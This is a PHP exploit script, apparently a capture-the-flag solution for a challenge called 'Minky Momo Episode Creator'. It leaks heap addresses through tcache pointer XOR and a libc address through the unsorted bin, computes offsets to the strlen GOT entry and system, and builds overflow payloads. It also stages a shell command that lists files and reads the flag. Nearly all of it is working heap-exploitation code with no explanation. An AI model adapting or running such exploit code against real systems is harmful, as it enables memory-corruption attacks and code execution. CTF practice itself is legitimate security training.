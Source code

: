 ```php
$addr = array_map(fn(string $s) => str_pad($s, 8, "\x00"), $addr);
$addr = array_map(fn(string $s) => unpack("P", $s)[1], $addr);

$xor = $addr[0] ^ $addr[1];
printf("%X = %X ^ %X\n", $xor, $addr[0], $addr[1]);

add($fp, 2, $env);
add($fp, 3, $env);

$payload  = str_pad("4", OFF_ENVP, "\x00");
$payload .= pack("P*", $xor);
//$payload .= substr(pack("P", $xor), 0, 7); // remote crashes, why?
restart($fp, $payload);

////////////////////////////////////////////////////////////////////////////////
//printf("Stopped at %d\n", __LINE__); fgets(STDIN);

expectLine($fp, "Welcome to Minky Momo Episode Creator.");
expectLine($fp, "");

const SIZE = 0x40 - 8 - 1;

add($fp, 0, "clear; id; ls -la; cat *flag*; echo; sleep infinity");

add($fp, 1, str_repeat("1", SIZE));
add($fp, 2, str_repeat("2", SIZE));
add($fp, 3, str_repeat("3", SIZE));
add($fp, 4, str_repeat("4", SIZE));

// leak heap
del($fp, 4);
del($fp, 3);

$addr = [show($fp, 3), show($fp, 4)];
$addr = array_map(fn(string $s) => str_pad($s, 8, "\x00"), $addr);
$addr = array_map(fn(string $s) => unpack("P", $s)[1], $addr);
$heap = $addr[0] ^ $addr[1];

// leak libc
del($fp, 2);

$leak = show($fp, 2);
$leak = str_pad($leak, 8, "\x00");
$addr = unpack("P", $leak)[1];
$libc = $addr - 0x219ce0;

printf("[+] heap: %X\n", $heap);
printf("[+] libc: %X\n", $libc);
printf("\n");

assert(0 === ($libc & 0xFFF));
assert(0 === ($libc >> 48));


$strlen_got = $libc + 0x219090 - 0x10;

$wmemcmp    = $libc + 0x000c5ac0;
// ?
$strncpy    = $libc + 0x000a8950;
$system     = $libc + 0x50d60;

// tcache   = NULL <-- 4 <-- 3
// unsorted = [2]
```